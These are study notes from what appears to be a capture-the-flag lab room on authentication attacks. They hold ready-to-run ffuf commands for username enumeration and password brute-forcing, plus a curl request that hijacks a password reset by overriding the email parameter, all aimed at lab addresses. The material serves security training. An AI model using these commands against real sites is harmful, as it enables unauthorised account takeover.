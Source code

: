 # Room: Content Discovery 

## Key Concept
**Username Enumeration:**
- Enter username and if taken get a unique response eg "username already exists"
- Can be used to enumerate usernames

**Brute Force:**
- Trying a list of common passwords against a single username (of a list of them)

**Logic Flaws:**
- A **Logic Flaw** occurs when an application’s intended logical flow can be bypassed, manipulated, or subverted.
- These flaws can exist in any area of a site, but here we focus on authentication-related flaws.

## Tools / commands
### Fluff
#### Command - User Enumeration
- ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.1.206/customers/signup -mr "username already exists"

##### Switches
- -w selects file's location
- -x specifies the request method (GET is default)
- -d specifies the data that we are going to send 
- -H used for adding additional headers
- -u specifies URL we are making request to
- -mr the text on the page we are looking for

#### Command - Brute Force
- ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.1.206/customers/login -fc 200

##### Switches
- -w uses multiple wordlists (username list as W1, password list as W2 — separated by a comma)
- -X specifies request method (POST in this case)
- -d specifies the data to send (in this case, form fields with placeholders W1 and W2)
- -H sets the header (form data content type)
- -u specifies the URL for the request
- -fc filters out responses with status code 200 (assumes a failed login gives 200 so we want to catch anything else as a possible hit)

#### Command - Logic Flaw Exploit/Password Reset Hijack
- curl 'http://10.10.1.206/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'

##### How it works
- Application uses `$_REQUEST` which merges GET and POST (POST takes priority)
- By passing `email` in both GET and POST, we override the destination of the password reset
- Exploit flow:
  1. Register an account → receive email like `yourname@customer.acmeitsupport.thm`
  2. Use that email in the `email` POST parameter (while `email=robert...` remains in GET)
  3. A reset ticket is sent to **your account**, allowing login as **Robert**